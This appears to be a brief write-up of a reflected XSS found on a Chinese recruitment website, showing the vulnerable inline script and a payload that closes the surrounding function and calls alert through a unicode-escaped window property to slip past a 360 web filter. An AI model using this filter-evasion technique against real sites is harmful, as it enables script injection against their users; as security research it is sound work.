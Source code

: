Having your input reflected inside a script tag is not uncommon. Here it happened on a chinese website. Characters were correctly reflected as long as you aren't using any classic payload.  

```html
<script type="application/javascript">                                                                                 
function search_p(){                                                                                                   
    var company     = $("#company").val();                                                                             
    var address     = $("#address").val();                                                                             
    //alert(address);return;                                                                                           
    if($.trim(company) != '' && $.trim(address) != ''){                                                                
        window.location.href ="/index.php?m=default.recruit&cid="+</script><injected>injected</injected>+"&sid="++"&tid="++"&company="+company+"&address="+address;
    }else if($.trim(company) != '' && $.trim(address) == ''){                                                          
        window.location.href ="/index.php?m=default.recruit&cid="+</script><injected>injected</injected>+"&sid="++"&tid="++"&company="+company;
    }else if($.trim(company) == '' && $.trim(address) != ''){                                                          
        window.location.href ="/index.php?m=default.recruit&cid="+</script><injected>injected</injected>+"&sid="++"&tid="++"&address="+address;
    }else{                                                                                                             
        window.location.reload();                                                                                      
    }                                                                                                                  
}                                                                                                          
}                                                                                                                      
</script>
```

But as soon as you try to put an opening `script` tag the website replies with an `iframe` with URL `http://safe.webscan.360.cn/stopattack.html`  

We are already inside a `script` tag and the filters allows us to close the tag (as seen above) so we just need to inject our code without breaking the existing one. Sometimes it is hard to achieve but here it is possible.  

Injection takes place just after a plus sign used for string concatenation. We can either start with a string or an int as javascript will convert types. Then we must close the `if` block then the `search_p` function before putting our code.  

The call to `alert()` was caught as well, so I used the window object to access it. The final payload is the following:  

```javascript
0;}};window['al\u0065rt']('XSS');
```
